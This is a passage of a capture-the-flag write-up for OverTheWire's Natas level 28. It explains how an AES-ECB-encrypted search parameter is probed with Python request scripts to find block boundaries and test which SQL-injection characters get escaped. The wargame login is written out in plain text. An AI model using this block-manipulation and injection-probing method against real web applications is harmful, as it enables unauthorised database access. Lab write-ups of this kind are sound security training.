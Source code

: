 # 28

```
Username: natas28
URL:      http://natas28.natas.labs.overthewire.org
```

Strangely there is no source code provided for this one. It seems to use SQL to get the jokes, but any injection methods sent through the search bar will not work here.

I noticed when searching for something such as "test", it will go to `search.php` and send a `query` with the search (btw, here's a handy [URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)): `G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPK/ZEJpSw8lYr3+NDY3VpFZKSh/PMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY=` 

Another search with "passwords": `G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPIQ+2QTbcCowp8YHJ+hQkThoJUi8wHPnTascCPxZZSMWpc5zZBSL6eob5V3O1b5+MA=`

Playing with the values a bit gave me error messages such as `Zero padding found instead of PKCS#7 padding`, so this means the query uses AES with ECB mode, with blocks sized 16 bytes each (The query is in base64, so you are better off converting to hex for easier conversion).

I noticed that all searches start with two blocks,`G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP` ,so we do not need to worry about those.

The first step I did is figure out how many characters it'll take to fill out the third block. So i wrote python code that searches for a query of spaces, going from 1 space to 16 spaces.

```python
import requests
from urllib.parse import unquote
target = 'http://natas28.natas.labs.overthewire.org/'
webauth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

letters = 1
while (letters <= 16):
    query = ' ' * letters
    r = requests.get(target, 
    auth=webauth,
    params={"query": query}
    )
    print(str(letters) + '\t' + unquote(r.url).split("G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP")[-1])
    letters += 1
```

I noticed that after 10 spaces, the block will stay the same, as `ItlMM3qTizkRB5P2zYxJsb`. That means we can use the first 9 spaces to check if a character is being filtered with a backslash `\`.  I did this by using the backslash as my 10th character first, then comparing it to special characters that I may use for my SQL injection attack, including quotes, hashes, or semicolons. I replaced the bottom of my python code with this:

```python
letters = ['\\','\'',';','#']
for letter in letters:
    query = (' ' * 9) + letter
    r = requests.get(target, 
    auth=webauth,
    params={"query": query}
    )
    print(letter + '\t' + unquote(r.url).split("G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP")[-1])
```
